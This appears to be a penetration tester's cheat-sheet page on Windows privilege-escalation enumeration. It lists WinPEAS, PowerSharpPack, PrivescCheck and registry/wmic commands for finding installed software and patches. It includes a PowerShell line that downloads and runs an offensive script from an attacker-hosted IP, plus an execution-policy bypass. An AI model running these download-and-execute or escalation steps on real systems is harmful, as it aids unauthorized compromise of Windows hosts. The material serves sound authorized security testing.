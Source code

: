 ### WinPEAS & PowerSharpPack & other privesc checks

{% hint style="info" %}
Try Winpeas output as html
{% endhint %}

```bash
https://github.com/S3cur3Th1sSh1t/PowerSharpPack
iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')
PowerSharpPack -winPEAS

windows-privesc-check2.exe -h
https://github.com/itm4n/PrivescCheck
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
winpeas.exe > outputfile.txt
https://github.com/itm4n/PrivescCheck
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
Metasploit -> multi/recon/local_exploit_suggester
```

Take into account that Watson scanning is included in WinPEAS.&#x20;

## Installed Apps / Patches

{% code overflow="wrap" fullWidth="true" %}
```bash
# Installed apps (check all)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Check C:\ / Program Files / Downloads directories
# Installed Applications and Patch Levels
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn

# LIST INSTALLED SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
acceschk.exe (Sysinternals) https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
# ****Enumerating installed software versions via Registry
# List installed software on Windows
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName
# Check version for specific software
PS > Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Where-Object {($_.DisplayName -eq "My Software")}
# If it does not appear here, check document files or inside Downloads folder.
```
{% endcode %}
